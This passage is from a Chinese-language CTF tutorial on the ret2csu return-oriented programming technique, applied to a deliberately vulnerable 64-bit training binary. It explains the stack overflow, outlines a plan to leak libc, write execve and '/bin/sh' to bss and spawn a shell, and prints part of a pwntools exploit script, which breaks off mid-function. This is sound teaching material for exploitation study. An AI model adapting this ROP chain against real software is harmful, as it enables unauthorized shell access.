 ### 例子
程序下载链接: [ret2csu](https://github.com/zhengmin1989/ROP_STEP_BY_STEP/raw/master/linux_x64/level5).

先`checksec`查看一下程序, 程序为`64`位, 开启了堆栈不可执行保护.

<div align=center><img src="./images/37.png"></div>

`IDA`查看程序, 跟进`vulnerable_function`函数, 可以看到程序存在一个栈溢出的漏洞点. 并且在程序中既没有`system`函数地址, 也没有`/bin/sh`字符串, 需要我们自己去构造.

<div align=center><img src="./images/38.png"></div>

这里使用的是`execve`来获取`shell`, 基本利用思路如下:
 - 利用栈溢出执行`libc_csu_gadgets`获取`write`函数地址, 并使得程序重新执行`main`函数.
 - 根据`libcsearcher`获取对应`libc`版本以及`execve`函数地址.
 - 再次利用栈溢出执行`libc_csu_gadgets`向`bss`段写入`execve`地址以及`'/bin/sh'`地址, 并使得程序重新执行`main`函数.
 - 再次利用栈溢出执行`libc_csu_gadgets`执行`execve('/bin/sh')`获取`shell`.

`exploit`参考`CTF Wiki`:

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
```